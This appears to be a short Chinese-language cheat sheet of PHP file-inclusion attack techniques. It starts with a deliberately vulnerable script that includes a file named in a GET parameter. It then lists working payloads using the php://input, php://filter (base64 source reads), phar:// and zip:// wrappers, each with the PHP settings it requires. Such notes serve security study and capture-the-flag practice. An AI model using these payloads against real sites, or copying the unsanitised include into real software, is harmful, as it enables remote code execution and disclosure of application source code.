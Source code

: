 ```php
<?php
    $file = $_GET['file'];
    include $file;
	highlight_file(__FILE__);
?>
//www目录
    //有a.txt，<?php phpinfo();?>
    //有a.zip,里面含a.txt
```

## php://input

​	利用条件：

> ​		allow_url_include=on，allow_url_fopen不做要求

```php
姿势：
/?file=php://input
[post]
<?php phpinfo();?>
```

## php://filter

> ​	利用条件：上面的那两个配置文件选项都不做要求

```php
姿势
/?file=php://filter/read=convert.base64-encode/resource=a.txt
/?file=php://filter/convert.base64-encode/resource=a.txt
```

​	通过指定末尾的文件，可以读取经base64加密后的文件源码，虽然不能获取shell，但危害也挺大。

## phar://

> ​	利用条件：PHP版本>=5.3.0

```php
假设有个a.zip压缩包，里面有个a.txt里面有<?php phpinfo();?>
/?file=phar://a.zip/a.txt
绝对相对路径都OK
```

## zip://

> 利用条件：
>
> ​	PHP版本>=5.3.0
>
> ​	需要绝对路径，同时编码#为%23

```php
/?file=zip://D:\wamp64\www\a.zip%23a.txt
//如果使用相对路径，包含会失败。
```
